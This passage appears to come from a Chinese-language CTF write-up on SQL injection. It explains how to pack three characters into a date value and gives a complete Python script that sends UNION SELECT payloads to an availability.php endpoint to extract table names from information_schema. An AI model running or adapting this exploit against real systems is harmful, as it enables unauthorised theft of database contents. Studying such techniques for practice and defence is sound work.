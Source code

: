 ``` txt
PHP Warning:  date() expects parameter 2 to be int, float given in /Users/li.hu/Documents/playground/ctf/sql-injection/test.php on line 7
```

代表我們最多可以一次拿 5 個字元，因為 `128^6` 還在許可範圍之內，不會爆炸。

但是呢，Python 在使用 `datetime.strptime` 將日期轉為 timestamp 時，最高的上限似乎是 9999 年，超過以後就會拋錯。因此，除非自己寫一套轉換，否則最多就只能一次拿 3 個字元的資料。寫這個轉換光想就很麻煩（要考慮到每個月的天數跟閏年），因此我只實作了 3 個字元的版本，程式碼如下：

``` python
# exploit-ava-3x.py
import requests
import datetime
import json
import urllib.parse
import time

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
fr = encode(fr)
start = time.time()
while True:
  payload = f'''
    ascii(SUBSTRING({field},{index}))*86400
    + ascii(SUBSTRING({field},{index+1}))*86400*128
    + ascii(SUBSTRING({field},{index+2}))*86400*128*128
    + {base_time}
  '''
  response = requests.get(f'{host}/availability.php?id=12345%20union%20select%201%20,{base_time},{encode(payload)},4%20{fr}&start_time=2023-01-01&end_time=2023-01-01')
  index += 3
  if response.ok:
    data = json.loads(response.text)
    d = data['events'][0]['end']
    print(d)
    if d == '2023-01-01':
      break
    else:
      diff = datetime.datetime.strptime(d, "%Y-%m-%d").timestamp() - base_time
      diff = int(diff/86400)
      is_over = False
      while diff > 0:
        num = diff % 128
        if num == 0:
          is_over = True
          break
        result += chr(num)
        diff = int((diff - num) / 128)

      if is_over:
        break

      print("current:", result)
      
  else:
    print('error')
```